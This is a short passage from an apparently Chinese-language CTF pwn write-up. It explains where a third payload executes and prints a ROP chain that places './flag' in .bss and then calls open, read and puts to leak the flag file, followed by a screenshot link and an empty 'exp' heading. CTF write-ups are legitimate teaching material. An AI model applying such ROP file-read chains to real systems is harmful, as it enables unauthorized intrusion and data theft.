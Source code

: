 [![](assets/1708654729-074d3218fa3b8c5f9df7391beb5ddd59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011917-2d61e368-d014-1.png)  
从这里我们就看出第三个 payload 就直接沿着 0x404208 执行了，所以我们也是把'./flag'放在了 0x404200 的位置

```bash
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

然后就得到了本地测试的 flag

[![](assets/1708654729-9551511b28281c34b083869c17ab7f6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011941-3bc4dd48-d014-1.png)

### exp
